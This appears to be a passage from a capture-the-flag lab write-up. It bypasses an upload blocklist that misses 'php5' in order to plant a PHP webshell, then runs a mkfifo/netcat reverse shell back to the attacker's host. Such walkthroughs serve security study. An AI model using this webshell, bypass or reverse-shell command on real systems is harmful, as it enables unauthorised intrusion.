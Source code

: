 ```

106 <?php
107 protected function blockedExtensions()
108 {
109         return [
110                 // redacted
111                 'php',
112                 'php3',
113                 'php4',
114                 'phtml',
115                 // redacted
116         ];
117 }

```

But `php5` is a valid php extension, so I can upload a shell as that.

If I go to the media tab, I’ll see the “Upload” button:

![1552133490763](https://0xdfimages.gitlab.io/img/1552133490763.png)

I’ll upload a simple webshell, `<?php system($_REQUEST['cmd']); ?>` as `cmd.php5`:

![1552133537262](https://0xdfimages.gitlab.io/img/1552133537262.png)

### Webshell

The link on the left gives the public url of `http://10.10.10.16/storage/app/media/cmd.php5`, which I can visit with a `?cmd=id` at the end to prove execution:

```

root@kali# curl http://10.10.10.16/storage/app/media/cmd.php5?cmd=id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

### Shell

I can go to full shell with:

```

root@kali# curl http://10.10.10.16/storage/app/media/cmd.php5 --data-urlencode "cmd=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.14 443 >/tmp/f"

```

```

root@kali# nc -lnvp 443
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.16.
Ncat: Connection from 10.10.10.16:40712.
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

